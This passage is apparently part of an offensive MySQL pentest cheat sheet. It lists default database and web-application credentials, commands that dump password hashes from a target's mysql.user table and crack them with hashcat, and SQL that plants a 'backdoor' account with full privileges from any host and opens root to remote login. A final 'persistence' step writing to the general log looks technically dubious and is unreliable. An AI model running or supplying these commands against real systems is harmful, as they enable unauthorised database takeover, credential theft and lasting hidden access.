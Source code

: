 ## Default Credentials List

### Common MySQL Defaults
```
root:(empty)
root:root
root:admin
root:password
admin:admin
mysql:mysql
test:test
user:user
guest:(empty)
```

### Application-Specific
```
wordpress:wordpress
joomla:joomla
drupal:drupal
phpmyadmin:phpmyadmin
xampp:xampp
wamp:wamp
```

---

## Advanced Exploitation

### Hash Cracking
```bash
# Extract MySQL hashes
mysql -u root -ppass -h target -e "SELECT User, authentication_string FROM mysql.user;" > hashes.txt

# Crack with hashcat
hashcat -m 300 hashes.txt wordlist.txt    # MySQL 5.x
hashcat -m 7401 hashes.txt wordlist.txt   # MySQL 8.x
```

### Post-Exploitation
```sql
-- Create backdoor user
CREATE USER 'backdoor'@'%' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%';
FLUSH PRIVILEGES;

-- Enable remote access
UPDATE mysql.user SET Host='%' WHERE User='root';
FLUSH PRIVILEGES;

-- Persistence via startup
INSERT INTO mysql.general_log VALUES (NOW(), 'backdoor', 'localhost', 1, 'Connect', 'root', 0, '');
```
